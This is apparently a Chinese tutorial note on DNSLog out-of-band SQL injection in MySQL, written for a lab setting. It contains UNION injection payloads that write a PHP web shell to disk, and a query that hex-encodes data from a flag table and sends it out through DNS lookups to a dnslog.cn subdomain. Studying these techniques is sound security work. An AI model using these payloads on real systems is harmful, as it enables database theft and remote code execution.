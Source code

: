 ## DNSLog注入

### 注入原理

MySQL的`secure_file_priv`必须为空，允许MySQL对文件进行读写操作，利用域名解析功能，在访问某个域名之前先执行某个SQL指令在通过查看DNS日志文件来访问敏感信息

### 前置知识

#### `load_file()`函数

使用MySQL读取指定文件

##### 格式：

这里的UNC路径相当于Windows文件共享路径：`\\ip address | domain name\file path`

```
load_file("UNC路劲")
```

##### 演示：

```
mysql> select load_file("/var/www/html/Less-7/result.txt");
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| load_file("/var/www/html/Less-7/result.txt")                                                                                                                       |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ID:1')) UNION SELECT 1,"<?php eval($_POST['cmd']);?>",3 into outfile "shell.php"#
ID:1')) UNION SELECT 1,"<?php eval($_POST['cmd']);?>",3 into outfile "111.php"#
 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------+
1 row in set (0.01 sec)
```

### 免费的DNSLog站点

```
http://dnslog.cn/
http://ceye.io
```

### DNSLog注入注意事项

1. DNSLog注入是由长度限制的
2. DNSLog注入在遇到如`{}`等特殊符号的时候就会失效

对于长度限制，我们需要用`substr()`函数将字符串做截断处理，对于特殊符号限制，我们需要使用`hex()`函数将字符串转为16进制

```
select * from gg_users where username='1' and (select load_file(concat("//",(select substr(hex(flag),40,60) from gg_flag),".ckkxx7.dnslog.cn/benen")));
```
